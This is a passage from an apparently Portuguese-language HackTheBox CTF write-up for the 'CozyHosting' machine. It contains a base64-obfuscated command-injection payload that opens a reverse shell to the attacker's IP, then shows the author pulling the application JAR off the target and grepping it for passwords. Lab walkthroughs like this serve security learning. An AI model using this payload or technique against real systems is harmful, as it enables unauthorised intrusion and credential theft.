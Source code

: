 Lembrando de adicionar o ${IFS} pois nao é permitido espaços, abaixo é nosso payload, vamos adicionar ele no burp, e encodar em URL, para isso selecione todo código e Clique Direito > Convert Selection > URL> Encode All 

```text
;`echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODgvNDQ0MyAwPiYxCg=='|${IFS}base64${IFS}-d${IFS}|${IFS}bash`
```
{: .nolineno }
Ficando assim no burp
![Alt text](/assets/img/7cozyhosting.png)

## **Exploração**

Reverse shell conectada, vamos baixar o arquivo nesse diretório, abrimos um server http com python e baixamos em nossa maquina com wget

```shell
app@cozyhosting:/app$ ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
app@cozyhosting:/app$ python3 -m http.server 9090

──(kali💀kali)-[~/HTB/cozyhosting]
└─$ wget http://cozyhosting.htb:9090/cloudhosting-0.0.1.jar     
```
{: .nolineno }
Para descompactar

`unzip cloudhosting-0.0.1.jar`

Temos 3 pastas BOOT-INF, META-INF e org

usando o grep pra pesquisar por passwords nesses diretórios.

```shell
┌──(kali💀kali)-[~/HTB/cozyhosting]
└─$ grep -rnwi 'password' .                                                                  
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:6155:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:6160:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:3710:    <glyph glyph-name="lock-password-fill"
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:3713:    <glyph glyph-name="lock-password-line"
grep: ./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.ttf: binary file matches
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:1277:.ri-lock-password-fill:before { content: "\eecf"; }
```